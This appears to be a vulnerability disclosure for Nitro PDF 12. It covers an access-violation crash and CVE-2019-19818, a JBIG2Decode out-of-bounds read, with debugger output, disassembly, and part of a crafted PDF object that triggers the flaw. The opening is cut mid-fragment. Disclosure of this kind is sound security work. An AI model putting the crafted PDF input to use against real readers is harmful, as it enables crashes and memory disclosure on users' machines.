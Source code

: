 ```
endstream
endobj
```
An access violation happened when open the PDF file with Nitro PDF. Example:
```
(1b18.1274): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Nitro\Pro\12\npdf.dll - 
npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x2e8a:
00007ff9`28f44bea 443b4b10        cmp     r9d,dword ptr [rbx+10h] ds:00000000`00000010=????????
```

Analyzing thru the vulnerable code found that the heap overflow happened when the library JBIG2DECODE embedded in npdf.dll attempt to read in memory. Crash code path:
```
.text:00000001803A4BE1              lea     r9d, [rdx+r14]
.text:00000001803A4BE5              test    r9d, r9d
.text:00000001803A4BE8              js      short loc_1803A4C5D
.text:00000001803A4BEA              cmp     r9d, [rbx+10h] ; exception here
```

Attempt to read from memory:
```
0:000> .exr -1
ExceptionAddress: 00007ff928f44bea (npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x0000000000002e8a)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 0000000000000000
   Parameter[1]: 0000000000000010
Attempt to read from address 0000000000000010
```

CVE-2019-19818 - (npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0xa08a) JBIG2Decode Out-of-Bounds Read Vulnerability
------------------------------------------------------------------------------------------------------------------------------
An exploitable out-of-bounds read vulnerability exists in the handling of JBIG2Decode object stream attributes of Nitro PDF Reader version 12.0.0.112. A specially crafted PDF document can trigger an out-of-bounds read, which can disclose sensitive memory content and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. If the browser plugin extension is enabled, visiting a malicious site can also trigger the vulnerability.

The OOB issue found when it parse the object stream, where it failed to decode the unicode character found in the stream. This happened when it tries to process the following example:
```
4 0 obj
<< /Length 103
>>
stream
���������\��ÿýÿþþþ������}\åõ£!õÜFæ:÷BSö?
âI�vœÐû|íx\Lúùr?/UÄS³:>2¨ÿ+1lV?~~èa"xvi´–„#ÿ¬
endstream
endobj
5 0 obj
<< /DecodeParms << /JBIG2Globals 4 0 R >>
/Width 32
/ColorSpace /DeviceGray
/Height 32
/Filter /JBIG2Decode
/Subtype /Image
/Length 138
/Type /XObject
```